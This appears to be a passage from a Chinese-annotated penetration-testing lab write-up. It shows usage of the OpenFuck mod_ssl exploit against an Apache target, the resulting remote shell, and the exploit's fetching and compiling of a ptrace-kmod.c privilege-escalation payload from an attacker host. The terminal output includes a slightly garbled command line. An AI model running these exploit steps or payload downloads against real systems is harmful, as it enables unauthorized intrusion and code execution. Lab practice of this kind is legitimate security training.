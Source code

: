 ```bash
: Usage: ./OpenFuck target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
  

  Supported OffSet:
        0x00 - Caldera OpenLinux (apache-1.3.26)
        0x01 - Cobalt Sun 6.0 (apache-1.3.12)
        0x02 - Cobalt Sun 6.0 (apache-1.3.20)
        0x03 - Cobalt Sun x (apache-1.3.26)
        0x04 - Cobalt Sun x Fixed2 (apache-1.3.26)
        0x05 - Conectiva 4 (apache-1.3.6)
        。。。。。。。。。。
```

```bash
#根据我们探测端口时的信息我们选择0x6b
┌──(root㉿kali)-[/home/kali/Desktop]
└─# ./OpenFuck 0x6b 192.168.85.156 443 -c 50 

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 50 of 50
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmod.c; ./exploit; -kmod. 
--14:06:59--  http://192.168.85.154:9999/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to 192.168.85.154:9999... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   3.74 MB/s

14:06:59 (3.74 MB/s) - `ptrace-kmod.c' saved [3921/3921]

gcc: file path prefix `/usr/bin' never used
[-] Unable to attach: Operation not permitted
bash: [6523: 1] tcsetattr: Invalid argument
bash-2.05$ 
bash-2.05$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
```
